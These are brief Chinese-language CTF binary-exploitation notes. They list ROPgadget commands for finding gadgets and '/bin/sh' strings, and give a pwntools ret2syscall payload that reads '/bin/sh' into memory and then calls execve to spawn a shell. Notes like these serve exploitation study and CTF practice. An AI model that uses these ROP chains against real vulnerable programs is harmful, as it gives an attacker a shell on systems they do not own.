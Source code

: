 
read足够大的时候，可以直接一把梭

```
ROPgadget --binary pwn --ropchain
```



查找pwn程序中的rdi寄存器的地址

```bash
ROPgadget --binary ./pwn --only "pop|ret" | grep "rdi"
```

```bash
ROPgadget --binary ./pwn --only "ret"
```





查找库中的字符串，找pwn程序中的也可以

```bash
ROPgadget --binary pwn --string '/bin/sh'
```



```bash
ROPgadget --binary libc.so --string '/bin/sh'
```



## ret2syscall

such as下面的ret2syscall：64位就是syscall  32位就是int     0x80（五个空格）

```python
# 64位
payload = flat([pop_rax_ret , 0 , pop_rdi_ret , 0 , pop_rsi_ret , bin_sh_addr , pop_rdx_ret , 8 , syscall_addr])
payload += flat([pop_rax_ret , 0x3b , pop_rdi_ret , bin_sh_addr , pop_rsi_ret , 0 , pop_rdx_ret , 0 , syscall_addr])
r.send(b'/bin/sh\x00')
```



int 0x80要带ret，，32位就是read然后execve







## 本地缺少libc库

少库：

```
sudo apt-get install lib32stdc++6
```
